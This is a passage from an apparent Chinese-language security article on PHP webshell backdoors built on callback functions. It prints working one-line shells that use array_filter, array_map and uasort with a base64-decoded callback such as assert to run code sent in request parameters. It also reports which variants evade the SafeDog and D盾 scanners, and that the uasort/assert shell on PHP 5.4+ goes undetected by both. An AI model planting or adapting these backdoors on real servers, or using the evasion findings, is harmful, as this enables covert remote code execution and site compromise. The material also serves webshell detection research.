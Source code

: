 ```
$e = $_REQUEST['e'];
$arr = array($_POST['pass'],);
array_filter($arr, base64_decode($e));

```

`array_filter`函数是将数组中所有元素遍历并用指定函数处理过滤用的，如此调用（此后的测试环境都是开着狗的，可见都可以执行）：

![enter image description here](http://drops.javaweb.org/uploads/images/00e588c6b875ab76b42a71c47ef37f8dccb2d057.jpg)

这个后门，狗查不出来，但D盾还是有感应，报了个等级3（显然比之前的等级4要低了）：

![enter image description here](http://drops.javaweb.org/uploads/images/50424ff208ea38b52f17b90d7ebf474b37b466dd.jpg)

类似array_filter，array_map也有同样功效：

```
$e = $_REQUEST['e'];
$arr = array($_POST['pass'],);
array_map(base64_decode($e), $arr);

```

依旧被D盾查杀。

果然，简单的数组回调后门，还是很容易被发现与查杀的。

0x03 php5.4.8+中的assert
=====

php 5.4.8+后的版本，assert函数由一个参数，增加了一个可选参数descrition：

![enter image description here](http://drops.javaweb.org/uploads/images/5a99592e23bbc30986e57edb251a6f384aad9a1d.jpg)

这就增加（改变）了一个很好的“执行代码”的方法assert，这个函数可以有一个参数，也可以有两个参数。那么以前回调后门中有两个参数的回调函数，现在就可以使用了。

比如如下回调后门：

```
$e = $_REQUEST['e'];
$arr = array('test', $_REQUEST['pass']);
uasort($arr, base64_decode($e));

```

这个后门在php5.3时会报错，提示assert只能有一个参数：

![enter image description here](http://drops.javaweb.org/uploads/images/822b0a49955780d80e62c9d55aa823bf98174207.jpg)

php版本改作5.4后就可以执行了：

![enter image description here](http://drops.javaweb.org/uploads/images/6f5bf250f82815f34e35cf5b2156f77d83953290.jpg)

这个后门，狗和盾是都查不出来的：

![enter image description here](http://drops.javaweb.org/uploads/images/53d1682d77bb52564ad4b121cea4e759d425414e.jpg)
